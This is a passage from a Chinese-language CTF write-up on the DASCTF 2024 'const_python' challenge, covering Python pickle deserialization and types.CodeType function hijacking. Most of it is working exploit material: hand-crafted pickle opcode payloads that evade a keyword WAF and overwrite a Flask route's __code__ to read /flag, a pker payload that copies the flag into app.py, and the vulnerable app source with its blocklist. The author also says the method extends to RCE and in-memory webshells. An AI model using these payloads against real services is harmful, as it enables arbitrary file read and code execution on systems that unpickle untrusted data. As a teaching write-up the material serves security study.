a=pickle.loads(data)
print(a.name,a.age)
```

## types.CodeType

这里也可以先看例题，然后回来看这里

我们还需要知道这个知识点，这个函数是python用来`动态修改函数`，感觉`利用点还不错`有待开发利用，有点类似`java agent后代理`那种感觉

这里可以先构造恶意函数，for出`__code__`对应的值，然后去覆盖我们目标函数，使其变成我们的恶意函数进行利用

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()
for i in src.__code__.__dir__():
    print(f"{i} : {getattr(src.__code__, i)}")
```

看下面这个demo，将src的`__code__`覆盖给`secret()`,覆盖过程中做了个小修改，将src()中'`app.py`'改成'`flag`'（这里其实恶意函数可以写好，不用改的，这里懒得重新写demo了就直接用了hhh）,最后成功读取`flag`

```
import types
def src():
    return  open("app.py", "r",encoding="utf-8").read()
def secret():
    return 

oCode = src.__code__
secret.__code__= types.CodeType(oCode.co_argcount, 
                                oCode.co_posonlyargcount, 
                                oCode.co_kwonlyargcount, 
                                oCode.co_nlocals, 
                                oCode.co_stacksize, 
                                oCode.co_flags,
                                oCode.co_code, 
                                tuple(c if c != 'app.py' else 'flag' for c in oCode.co_consts), 
                                oCode.co_names, 
                                oCode.co_varnames,
                                oCode.co_filename,
                                oCode.co_name, 
                                oCode.co_firstlineno, 
                                oCode.co_lnotab,
                                oCode.co_freevars,
                                oCode.co_cellvars,)
print(secret())
```

下面这个demo是为了pickle反序列化做铺垫的

### pickle demo

```
import builtins
import types

def src():
    return  open("app.py", "r",encoding="utf-8").read()
for i in src.__code__.__dir__():
    print(f"{i} : {getattr(src.__code__, i)}")

g1 = builtins.getattr
g2 = getattr(src,"__code__")
g3 = getattr(g2,"co_argcount")
g4 = getattr(g2,"co_posonlyargcount")
g5 = getattr(g2,"co_kwonlyargcount")
g6 = getattr(g2,"co_nlocals")
g7 = getattr(g2,"co_stacksize")
g8 = getattr(g2,"co_flags")
g9 = getattr(g2,"co_code")
g10 = (None, 'flag', 'r', 'utf-8', ('encoding',))#g10 = getattr(g2,"co_consts")
g11 = getattr(g2,"co_names")
g12 = getattr(g2,"co_varnames")
g13 = getattr(g2,"co_filename")
g14 = getattr(g2,"co_name")
g15 = getattr(g2,"co_firstlineno")
g16 = getattr(g2,"co_lnotab")
g17 = getattr(g2,"co_freevars")
g18 = getattr(g2,"co_cellvars")

g19 = types.CodeType(g3,g4,g5,g6,g7,g8,g9,g10,g11,g12,g13,g14,g15,g16,g17,g18)
g20 = builtins.setattr
g20(src,"__code__",g19)
print(src())
```

> 这里`types.CodeType`参数不能少就上面这些，然后构造的话其实可以直接`myevil.__code__.__dir__()`查看我们恶意函数就行，然后通过`builtins.setattr`进行赋值，有一点要注意`参数赋值的顺序`和`__dir__()`例出来的顺序有点不一样，要注意

## 例题 const\_python

[DASCTF2024最后一战｜寒夜破晓，冬至终章 官方WP](https://www.yuque.com/chuangfeimeiyigeren/eeii37/oxv3gaim7fr89ed2?singleDoc=#Yk07Q)

我觉得这个题还是`不错的`，然后知道上面两个知识点就可以看这个题了,这里简短代码列出两个主要部分

总得来说，就是有个`pickle反序列化的接口`但是有waf（尽管这个被绕了），然后我们可以通过`pickle`反序列化这个点来`执行python代码`调用`types.CodeType`动态修改`函数`，然后通过`访问路由`来调用我们的`恶意函数`

```
@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"
```

然后思路清晰了，就是构造poc

### 调试demo

这里举个例子，用来看我们设置的临时变量对不对

```
import types
import secrets
import sys
import builtins
import pickle

pickle_data=b'''(NS'flag'
S'r'
S'utf-8'
(S'encoding'
ttp10
c__main__
s
(S'name'
g10
db.'''

class Secret:
    def __init__(self, name):
        self.name = name

s=Secret(("sd",))

pickle.loads(pickle_data)
print(s.name)
```

然后这里我放一个官方wp的poc吧，不知道怎么来的，可以看上面`pickle demo`，这里就是通过pickle反序列化来调用函数，实现`types.CodeType`对`src.__code__`的修改，但是官方的poc`很局限`只是把`src函数`中`app.py`字符串修改为`/flag`

```
op3 = b'''cbuiltins
getattr
p0
c__main__
src
p3
g0
(g3
S'__code__'
tRp4
g0
(g4
S'co_argcount'
tRp5
g0
(g4
S'co_argcount'
tRp6
g0
(g4
S'co_kwonlyargcount'
tRp7
g0
(g4
S'co_nlocals'
tRp8
g0
(g4
S'co_stacksize'
tRp9
g0
(g4
S'co_flags'
tRp10
g0
(g4
S'co_code'
tRp11
(NS'/flag'
S'r'
S'utf-8'
(S'encoding'
ttp12
g0
(g4
S'co_names'
tRp13
g0
(g4
S'co_varnames'
tRp14
g0
(g4
S'co_filename'
tRp15
g0
(g4
S'co_name'
tRp16
g0
(g4
S'co_firstlineno'
tRp17
g0
(g4
S'co_lnotab'
tRp18
g0
(g4
S'co_freevars'
tRp19
g0
(g4
S'co_cellvars'
tRp20
ctypes
CodeType
(g5
I0
g7
g8
g9
g10
g11
g12
g13
g14
g15
g16
g17
g18
g19
g20
tRp21
cbuiltins
setattr
(g3
S"__code__"
g21
tR.'''
```

# [\*]实现接管任意函数

那我想达到什么效果呢，`修改任意函数，任意函数代码`，举个例子,这里secret函数相当于一个空函数，将他修改成和`src一样的效果`，或者说是`修改成一个命令执行的函数`

```
def src():
    return  open("app.py", "r",encoding="utf-8").read()
def secret():
    return 
```

其实用`types.CodeType`=>`执行python代码`很容易实现，但是这里我们要用pickle反序列化来实现这个效果，也就是要保证`types.CodeType参数的赋值`，这里获取`src.__code__.__dir__()`得到src函数的对应值。这里经过测试`co_filename`和`co_name`其实没啥影响，然后`co_lnotab`一般也就是下面的默认值。

> co\_filename co\_name co\_lnotab 这几个值我们直接获取原函数的值就好

然后最麻烦的问题就是`co_code`这个值，他是`byte`类型的，用`V`操作码uincode这种是不行的，V这种还是属于`string`跟byte其实不搭边

```
co_argcount : 0
co_posonlyargcount : 0
co_kwonlyargcount : 0
co_nlocals : 0
co_stacksize : 5
co_flags : 67
co_code : b't\x00d\x01d\x02d\x03d\x04\x8d\x03\xa0\x01\xa1\x00S\x00'
co_consts : (None, 'app.py', 'r', 'utf-8', ('encoding',))
co_names : ('open', 'read')
co_varnames : ()
co_freevars : ()
co_cellvars : ()
co_filename : c:/Users/jie/Desktop/4.py
co_name : src
co_firstlineno : 7
co_lnotab : b'\x00\x01'
```

### co\_code 解决

1. 然后我又再指令集里面翻呀翻，里面是看到跟`byte有关的操作码`，但其实都不能用（反正我没成功）

然后这种直接把值给到变量里这种我也试过，但是没啥用，显示的是C操作码，但是实现不了

```
class Secret:
    def __init__(self, name):
        self.name = name


s=Secret(src.__code__.co_code)
# s=Secret("sfsd")
print(s.name)
print(src.__code__.co_code)
import pickletools

dmup=pickle.dumps(s)
print(dmup)
pickletools.dis(dmup)

#    38: \x8c SHORT_BINUNICODE 'name'
#    44: \x94 MEMOIZE    (as 5)
#    45: C    SHORT_BINBYTES b't\x00d\x01d\x02d\x03d\x04\x8d\x03\xa0\x01\xa1\x00S\x00'
```

1. 这里我也看了下pker，但是其实它还不支持这种
2. **解决byte传输**

在我郁闷之际，又是参考文章救了我，我一眼看到`pickle 0版本`这不就是`手搓的poc`么，一个想法油然而生我看看`pickle0`咋赋值得呗



```
s=Secret(src.__code__.co_code)
dmup=pickle.dumps(s,protocol=0)
print(dmup)

# b'ccopy_reg
_reconstructor
p0
(c__main__
Secret
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
Vname
p6
c_codecs
encode
p7
(Vt\u0000d\x01d\x02d\x03d\x04\x8d\x03\xa0\x01\xa1\u0000S\u0000
p8
Vlatin1
p9
tp10
Rp11
sb.'
```

格式化下

```
ccopy_reg
_reconstructor
p0
(c__main__
Secret
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
Vname
p6
c_codecs
encode
p7
(Vt\u0000d\x01d\x02d\x03d\x04\x8d\x03\xa0\x01\xa1\u0000S\u0000
p8
Vlatin1
p9
tp10
Rp11
sb.
```

我们注意到`_codecs.encode`，调用发现可以将我们uincode字符串转换成`byte`，这不就成了？

实则不然，给我报了个这个错



pickletools.dis看是传入`byte`成功的，那为什么不行，然后用`dis.dis()`看了下改前和改后的两个函数有啥变化

改前



改后



可以看到`16这行`后面确实不一样有问题，return都没有了，那只有可能是`co_code`值的问题。

1. 最后发现是`_codecs.encode` utf-8的问题，我们`co_code`中不符合utf-8编码规范的话会被转化，所以导致传入的不一样。

上网搜索得到`latin-1`编码（也叫 `ISO-8859-1`），我们用这个编码加密出来就没问题啦

## end poc

我们这里直接修改`admin()`方法



```
import types
import secrets
import sys
import builtins
import pickle

def src():
    return  open("app.py", "r",encoding="utf-8").read()
def secret():
    return 

p1= b'''cbuiltins
getattr
p0
c__main__
admin
p3
g0
(g3
S'__code__'
tRp4
I0
p5
I0
p6
I0
p7
I0
p8
I5
p9
I67
p10
c_codecs
encode
p33
g33
(Vt\x00d\x01d\x02d\x03d\x04\x8d\x03\xa0\x01\xa1\x00S\x00
S'latin-1'
tRp11
(NS'/flag'
S'r'
S'utf-8'
(S'encoding'
ttp12
(S'open'
S'read'
tp13
)p14
g0
(g4
S'co_filename'
tRp15
g0
(g4
S'co_name'
tRp16
I7
p17
g0
(g4
S'co_lnotab'
tRp18
)p19
)p20
ctypes
CodeType
(g5
g6
g7
g8
g9
g10
g11
g12
g13
g14
g15
g16
g17
g18
g19
g20
tRp21
cbuiltins
setattr
(g3
S"__code__"
g21
tR.'''

import base64
encrypted_p1 = base64.b64encode(p1)
print(encrypted_p1)
```

/ppicklee路由`pickle反序列化`，直接post访问`/admin`路由就成啦



## 非预期

使用的pker，直接粘的别人poc（懒

其实用的`python的一个特性`，就是当app.py运行时,修改app.py内容是可以成功，且不影响app.py之前代码正常运行，就是修改后，运行还是按照运行前的代码运行，尽管app.py内容变了。

然后再访问`/src`就好了

```
getattr = GLOBAL('builtins', 'getattr')

open = GLOBAL('builtins', 'open')
flag=open('/flag')
read=getattr(flag, 'read')
f=open('./app.py','w')
write=getattr(f, 'write')
fff=read()
write(fff)
return
```

### pker

也是看文章了解到，看poc感觉也就是帮我们手搓，但是不是万能的

下载

<https://github.com/eddieivan01/pker>

使用方法

<https://xz.aliyun.com/t/7012?time__1311=n4%2BxnD0Dy7it0QYuq05%2BbWNi%3DkqD5DOFDjOxTD#toc-9>

```
$ cat test/SUCTF2019_guess_game_1
Game = GLOBAL('guess_game.Game', 'Game')
game = GLOBAL('guess_game', 'game')
game.round_count = 10
game.win_count = 10
ticket = INST('guess_game.Ticket', 'Ticket', 6)
return ticket

$ python3 pker.py < test/SUCTF2019_guess_game_1
b"cguess_game.Game
Game
p0
0cguess_game
game
p1
0g1
(N(S'round_count'
I10
dtbg1
(N(S'win_count'
I10
dtb(I6
iguess_game.Ticket
Ticket
p4
0g4
."
```

### dis

查看序列化数据操作码

```
import pickletools

data=b"\x80\x03cbuiltins
exec
q\x00X\x13\x00\x00\x00key1=b'1'
key2=b'2'q\x01\x85q\x02Rq\x03."
pickletools.dis(data)

    0: \x80 PROTO      3
    2: c    GLOBAL     'builtins exec'
   17: q    BINPUT     0
   19: X    BINUNICODE "key1=b'1'
key2=b'2'"
   43: q    BINPUT     1
   45: \x85 TUPLE1
   46: q    BINPUT     2
   48: R    REDUCE
   49: q    BINPUT     3
   51: .    STOP
highest protocol among opcodes = 2
```

## 总结

其实还有好多想表达的，就写道这里吧。

> **pickle反序列化 利用的理解**
>
> 我觉得其实是通过`执行python函数`到达恶意效果，但`本质上`不是执行`任意python代码`（像`del操作`就不能直接执行），当然可以借助`命令函数`(exec,eval等)达到执行`任意python代码`的效果。但是他本质上还是利用`执行python函数`到达恶意利用

然后还有点我想说`byte`那个地方，应该有很多python函数可以代替`_codecs.encode`的（比如`base64解密`），也是自己对python整体了解少的原因吧

### 利用

我上面其实只是示例了一个通过flask路由，然后动态修改路由对应方法实现任意文件读取。

但是其实已经可以达到实现`任意函数任意代码修改`了(`RCE，内存马` 都随便操作了)

> 其实我本来想写rce的，但是题目把`sys.modules['os'] = "not allowed"`，得用`del sys.modules['os']`，然后重新导入os才行（可能还有其他方法，但是我搜到就这个能用）
>
> 然后`del`属于python 语法操作，不是函数，pickle反序列化不能直接调用，可以借助`命令函数来调用`，但是这里又把命令函数给过滤了www（我搜到的都过滤了）
>
> 然后其实设置`os`不可用（这种做法，一般业务也不会这样），我也不太想转这个牛角尖了，所以没用这个做rce这个例子（其实也就是改下函数hhh
>
> 当然有师傅知道上面这个咋搞，欢迎扣我hhh

### types.CodeType 利用

这其实是一个很好的点，感谢出题人让我接触到，这种`动态修改函数`，操作空间挺大的感觉。

比如：

* 只要有变量覆盖这种洞，就可以利用这个点就可以修改函数，然后调用函数达到恶意利用（不过前提还得导入`types`模块hh
* 还有像python原型链污染这种，就是本质也是变量覆盖

## 题目源码

突然想到可能有师傅想要hhh

```
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```
